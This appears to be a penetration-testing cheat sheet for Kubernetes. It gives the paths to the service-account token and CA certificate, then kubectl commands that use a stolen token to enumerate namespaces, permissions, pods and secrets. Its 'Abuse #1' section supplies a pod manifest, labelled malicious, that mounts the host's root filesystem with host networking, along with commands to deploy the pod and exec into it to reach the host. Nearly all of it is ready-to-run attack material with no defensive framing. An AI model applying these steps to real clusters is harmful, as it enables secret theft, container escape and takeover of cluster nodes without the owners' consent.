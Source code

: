 ```yaml
---
title: "Kubernetes"
date: 2025-7-25
tags: ["Token-Based Authentication", "File System Permissions Vulnerabilities", "File System Mounting", "Kubernetes", "Container"]
---
```


### Token Location

```console
/run/secrets/kubernetes.io/serviceaccount/token
```

### Certificate Location

```console
/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### General

```console
# List all namespaces
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get namespaces
```

```console
# Get user permissions in current namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list
```

```console
# Get user permissions in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list -n <NAMESPACE>
```

```console
# List all pods
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods --all-namespaces
```

```console
# List pods in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods -n <NAMESPACE>
```

```console
# Get YAML of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pod <POD_NAME> -o yaml
```

```console
# Get info of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe pod <POD_NAME> -n <NAMESPACE>
```

```console
# List secrets
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get secrets -n <NAMESPACE>
```

```console
# Get info of a secret
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe secret <SECRET_NAME> -n <NAMESPACE>
```

<small>*Ref: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)*</small>

---

### Abuse #1: Mount host's File System

#### 1. Create a Malicious YAML (Template)

```console
apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: <NAMESPACE_NAME>
spec:
  containers:
  - name: test
    image: <IMAGE_NAME>
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

#### 2. Create a New Pod

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> apply -f test.yaml
```

#### 3. Execute

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> exec test --stdin --tty -n <NAMESPACE>
```

```console
# Check host filesystem
cd /mnt/root/
```
